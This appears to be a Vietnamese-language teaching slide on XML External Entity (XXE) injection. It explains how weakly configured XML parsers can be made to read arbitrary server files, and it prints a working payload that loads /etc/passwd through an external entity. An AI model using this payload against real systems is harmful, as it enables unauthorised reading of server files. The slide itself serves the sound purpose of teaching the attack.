

# Khai thác
 XXE injection là một cuộc tấn công XML nổi tiếng khai thác việc phân tích cú pháp của các thực thể XML không đáng tin cậy bởi một trình phân tích cú pháp XML được cấu hình yếu, cho phép kẻ tấn công xem các tệp tùy ý trên hệ thống tệp của máy chủ ứng dụng.
Payload :
<!DOCTYPE loadthis [<!ELEMENT loadthis ANY >
<!ENTITY somefile SYSTEM "file:///etc/passwd" >]>
…
<loadthis>&somefile;</loadthis>
>>Payload làm nhiệm vụ đọc file cấu hình /etc/passwd và in ra màn hình.